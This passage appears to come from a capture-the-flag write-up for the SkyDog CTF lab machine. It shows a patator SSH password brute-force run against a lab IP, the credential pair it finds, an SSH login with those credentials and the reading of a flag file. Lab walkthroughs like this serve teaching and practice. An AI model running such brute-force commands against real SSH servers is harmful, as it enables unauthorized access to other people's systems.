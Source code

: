 ```
# patator ssh_login host=192.168.1.101 port=22 user=FILE0 password=FILE1 0=usernames.txt 1=sneakers_script.txt -x ignore:mesg='Authentication failed.' -t 14
19:36:51 patator    INFO - Starting Patator v0.6 (http://code.google.com/p/patator/) at 2016-07-24 19:36 CEST
19:36:51 patator    INFO -                                                                              
19:36:51 patator    INFO - code  size   time | candidate                          |   num | mesg
19:36:51 patator    INFO - -----------------------------------------------------------------------------
19:38:01 patator    INFO - 0     39    0.009 | wernerbrandes:leroybrown           |   200 | SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu2
```

We got a hit, let's login with **wernerbrandes:leroybrown** and look around:

```
root@kali:~/Downloads# ssh wernerbrandes@192.168.1.101
wernerbrandes@192.168.1.101's password: 
Welcome to Ubuntu 14.04.3 LTS (GNU/Linux 3.19.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Jul 24 13:38:01 EDT 2016

  System load:  0.0               Processes:           113
  Usage of /:   7.3% of 17.34GB   Users logged in:     0
  Memory usage: 6%                IP address for eth0: 192.168.1.101
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

30 packages can be updated.
21 updates are security updates.

Last login: Fri Oct 30 19:08:28 2015 from 10.0.2.5
wernerbrandes@skydogctf:~$ ls -al
total 32
drwxr-xr-x 3 wernerbrandes wernerbrandes 4096 Oct 30  2015 .
drwxr-xr-x 4 root          root          4096 Sep 18  2015 ..
-rw------- 1 wernerbrandes wernerbrandes    0 Oct 30  2015 .bash_history
-rw-r--r-- 1 wernerbrandes wernerbrandes  220 Sep 18  2015 .bash_logout
-rw-r--r-- 1 wernerbrandes wernerbrandes 3637 Sep 18  2015 .bashrc
drwx------ 2 wernerbrandes wernerbrandes 4096 Sep 18  2015 .cache
-rw-r--r-- 1 nemo          nemo            38 Sep 18  2015 flag.txt
-rw-r--r-- 1 wernerbrandes wernerbrandes  675 Sep 18  2015 .profile
-rw-rw-r-- 1 wernerbrandes wernerbrandes   66 Oct 25  2015 .selected_editor
wernerbrandes@skydogctf:~$ cat flag.txt 
flag{82ce8d8f5745ff6849fa7af1473c9b35}wernerbrandes@skydogctf:~$ 
wernerbrandes@skydogctf:~$ 
```
